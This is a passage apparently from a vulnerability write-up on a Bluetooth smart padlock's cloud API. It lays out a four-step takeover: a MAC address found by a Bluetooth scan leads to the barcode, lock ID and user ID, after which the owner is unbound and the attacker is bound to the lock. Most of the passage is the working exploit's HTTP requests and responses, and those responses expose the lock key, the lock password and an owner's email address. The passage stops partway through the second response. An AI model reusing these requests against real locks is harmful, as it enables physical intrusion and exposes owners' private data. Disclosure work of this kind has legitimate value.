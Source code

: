 The entire exploit is a 4 step process consisting of authenticated 
HTTP requests:
1. Using the lock's MAC (obtained via a simple bluetooth scan in the 
vicinity), get the barcode and lock ID
2. Using the barcode, fetch the user ID
3. Using the lock ID and user ID, unbind the user from the lock
4. Provide a new name, attacker's user ID and the MAC to bind the attacker
to the lock

### Request 1

```
POST /oklock/lock/queryDevice
{"mac":"6C:C3:74:DB:29:4D"}
```

Response:

```
{
   "result":{
      "alarm":0,
      "barcode":"GFYY00028614",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":90410,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"6C:C3:74:DB:29:4D",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0
   },
   "status":"2000"
}
```

### Request 2

```
POST /oklock/lock/getDeviceInfo

{"barcode":"https://app.oklok.com.cn/app.html?id=GFYY00028614"}
```

Response:

```
   "result":{
      "account":"shubhchougule95.sc@gmail.com",
      "alarm":0,
      "barcode":"GFYY00028614",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":90410,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
```